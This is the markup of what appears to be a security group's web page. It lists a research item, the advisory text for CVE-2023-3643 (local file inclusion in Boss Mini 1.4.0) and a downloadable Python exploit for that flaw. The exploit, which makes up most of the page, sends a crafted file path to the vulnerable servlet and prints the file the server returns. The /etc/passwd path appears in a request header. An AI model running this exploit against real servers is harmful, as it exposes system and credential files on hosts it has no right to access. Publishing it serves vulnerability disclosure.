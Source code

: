 ```yaml
---
layout: default
---
```


- # Research
  <details><summary>Exploring IDOR with Bitwise Operators</summary>
  <br>
  <blockquote>by vpr</blockquote></details>

<br>
- #  CVE
  <details><summary>CVE-2023-3643 <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3643" target="_blank"> <!></a></summary>
  <br><blockquote>
  A vulnerability was found in Boss Mini 1.4.0 Build 6221. It has been classified as critical. This affects an unknown part of the file boss/servlet/document. The manipulation of the argument path leads to file inclusion. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-233889 was assigned to this vulnerability.</blockquote></details>

<br>
- # Exploit
  <details><summary>CVE-2023-3643</summary>
  <br>
  <pre>
  <code id="cve-2023-3643">
  # Exploit Title: Boss Mini 1.4.0 (Build 6221) - Local File Inclusion (LFI)
  # Date: 07/12/2023
  # Exploit Author: [nltt0] (https://github.com/nltt-br))
  # CVE: CVE-2023-3643


  '''
  _____       _                              _____ 
  /  __ \     | |                            /  ___|
  | /  \/ __ _| | __ _ _ __   __ _  ___  ___ \ `--. 
  | |    / _` | |/ _` | '_ \ / _` |/ _ \/ __| `--. \
  | \__/\ (_| | | (_| | | | | (_| | (_) \__ \/\__/ /
  \____/\__,_|_|\__,_|_| |_|\__, |\___/|___/\____/ 
                              __/ |                 
                            |___/                  

  '''

  from requests import post 
  from urllib.parse import quote
  from argparse import ArgumentParser

  try:
      parser = ArgumentParser(description='Local file inclusion [Boss Mini]')
      parser.add_argument('--domain', required=True, help='Application domain')
      parser.add_argument('--file', required=True, help='Local file')

      args = parser.parse_args()
      host = args.domain
      file = args.file
      url = '{}/boss/servlet/document'.format(host)
      file2 = quote(file, safe='')

      headers = {
          'Host': host,
          'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
          'Content-Type': 'application/x-www-form-urlencoded',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange',
          'Referer': 'https://{}/boss/app/report/popup.html?/etc/passwd'.format(host)
      }


      data = {
          'path': file2
      }

      try:
          req = post(url, headers=headers, data=data, verify=False)
          if req.status_code == 200:
              print(req.text)

      except Exception as e:
          print('Error in {}'.format(e))   
        

  except Exception as e:
      print('Error in {}'.format(e))
  
  
  </code></pre>
  <button onclick="downloadCode('cve-2023-3643', 'CVE-2023-3643.py')">Download</button>
  
  </details>

<script>
  function downloadCode(codeBlockId, fileName) {
    const codeContent = document.getElementById(codeBlockId).innerText;
    const blob = new Blob([codeContent], { type: 'text/plain' });
    const url = URL.createObjectURL(blob);
    const a = document.createElement("a");
    a.href = url;
    a.download = fileName;
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
    URL.revokeObjectURL(url);
}

</script>


<br>
<br>
<a href="https://www.linkedin.com/company/calangos-security/" target="_blank"><img src="/assets/images/calangoss-icon2.png" width="100" height="68" style="display: block;
  margin-left: auto;
  margin-right: auto;
  ">
</a>